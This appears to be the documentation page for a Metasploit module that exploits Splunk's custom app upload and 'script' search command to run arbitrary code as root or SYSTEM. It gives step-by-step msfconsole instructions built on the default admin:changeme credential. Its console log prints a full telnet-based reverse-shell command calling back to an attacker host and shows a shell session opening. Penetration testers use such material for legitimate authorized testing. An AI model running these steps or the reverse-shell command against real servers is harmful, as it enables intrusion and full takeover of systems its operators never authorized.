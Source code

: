 ## Vulnerable Application

This module exploits a feature of Splunk whereby a custom application can be
uploaded through the web based interface. Through the \'script\' search command a
user can call commands defined in their custom application which includes arbitrary
perl or python code. To abuse this behavior, a valid Splunk user with the admin
role is required. By default, this module uses the credential of "admin:changeme",
the default Administrator credential for Splunk. Note that the Splunk web interface
runs as SYSTEM on Windows, or as root on Linux by default. This module has been
tested successfully against Splunk 5.0, 6.1, 6.1.1 and 7.2.4.
Version 7.2.4 has been tested successfully against OSX as well.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use exploit/multi/http/splunk_upload_app_exec```
  3. Set required variables (you will need admin credentials)
  4. Do: ```SET TARGET 1```
  5. Do: ```SET RHOST 192.168.1.1```
  6. Do: ```SET USERNAME admin```
  7. Do: ```SET PASSWORD changeme```
  8. You should get a reverse shell on port 4444 via the predefined handler.

## External Demo
* [First PoC](http://blog.7elements.co.uk/2012/11/splunk-with-great-power-comes-great-responsibility.html) 
* [Metasploit module how-to](http://blog.7elements.co.uk/2012/11/abusing-splunk-with-metasploit.html)
* [SPLUNK API](http://docs.splunk.com/Documentation/Splunk/latest/SearchReference/Script)

## Options

  **EnableOverwrite**
  Overwrites an app of the same name. Needed if you change the app code in the tgz.
  Is not enabled by default.

## Scenarios

### Testing against 7.2.4 running on OSX

  Given admin credentials we can upload the custom app to SPLUNK, which will provide us with a reverse shell, triggered by the 'search' field API.

  ```
msf5 exploit(multi/http/splunk_upload_app_exec) >
msf5 exploit(multi/http/splunk_upload_app_exec) > set RHOST 172.16.165.1
RHOST => 172.16.165.1
msf5 exploit(multi/http/splunk_upload_app_exec) > set password splunksplunk
password => splunksplunk
msf5 exploit(multi/http/splunk_upload_app_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   Splunk >= 7.2.4 / Linux
   2   Splunk >= 7.2.4 / Windows
   3   Splunk >= 7.2.4 / OSX
   4   Splunk >= 5.0.1 / Linux
   5   Splunk >= 5.0.1 / Windows


msf5 exploit(multi/http/splunk_upload_app_exec) > set target 3
target => 3
msf5 exploit(multi/http/splunk_upload_app_exec) > exploit

[*] Started reverse TCP double handler on 172.16.165.206:4444
[*] Using command: sh -c '(sleep 3733|telnet 172.16.165.206 4444|while : ; do sh && break; done 2>&1|telnet 172.16.165.206 4444 >/dev/null 2>&1 &)'
[*] Authenticating...
[*] Fetching state token from /en-US/manager/appinstall/_upload
[*] Uploading file upload_app_exec.tgz
[+] upload_app_exec successfully uploaded
[*] Invoking script command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 8kNbt70jYB3aJKPm;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: line 2: Connected: command not found\r\nsh: line 3: Escape: command not found\r\n8kNbt70jYB3aJKPm\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.165.206:4444 -> 172.16.165.1:51512) at 2019-03-17 22:12:33 +0100
  ```
